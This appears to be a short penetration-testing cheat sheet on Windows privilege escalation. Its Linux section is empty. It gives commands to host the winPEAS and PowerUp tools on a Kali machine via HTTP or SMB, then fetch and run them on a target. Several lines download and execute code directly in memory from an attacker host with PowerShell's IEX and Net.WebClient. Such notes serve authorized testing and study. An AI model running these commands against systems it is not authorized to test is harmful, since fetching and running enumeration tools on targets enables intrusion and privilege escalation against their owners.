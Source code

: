 # Privilege Escalation

## Linux


## Windows

### winPEAS

- HTTP

Host the file
```
cd /usr/share/windows-resources/binaries
sudo python -m http.server 80
```

Copy on Target and execute
```
Invoke-WebRequest -Uri 'http://<Kali IP>/winPEASany.exe' -OutFile <Path>\winPEASany.exe
<Path>\winPEASany.exe
```
Or execute direct on memory
```
IEX(New-Object Net.WebClient).downloadstring('http://<Kali IP>/winPEASany.exe')
```

- SMB

Host the file
```
cd /usr/share/windows-resources/binaries
impacket-smbserver share $(pwd) -smb2support
```

```
net use \\<Kali IP>\share
copy \\<Kali IP>\share\winPEASany.exe .
winPEASany.exe
```

### PowerUp

- HTTP

Host the file
```
cd /usr/share/windows-resources/powersploit/Privesc/
sudo python -m http.server 80
```

Copy on Target and execute
```
Invoke-WebRequest -Uri 'http://<Kali IP>/PowerUp.ps1' -OutFile <Path>\PowerUp.ps1
Import-Module <Path>\PowerUp.ps1
Invoke-AllChecks
```
Or execute direct on memory
```
IEX(New-Object Net.WebClient).downloadstring('http://<Kali IP>/PowerUp.ps1')
Invoke-AllChecks
```

- SMB

Host the file
```
cd /usr/share/windows-resources/powersploit/Privesc/
impacket-smbserver share $(pwd) -smb2support
```

```
net use \\<Kali IP>\share
copy \\<Kali IP>\share\PowerUp.ps1 .
Import-Module .\PowerUp.ps1
Invoke-AllChecks
```
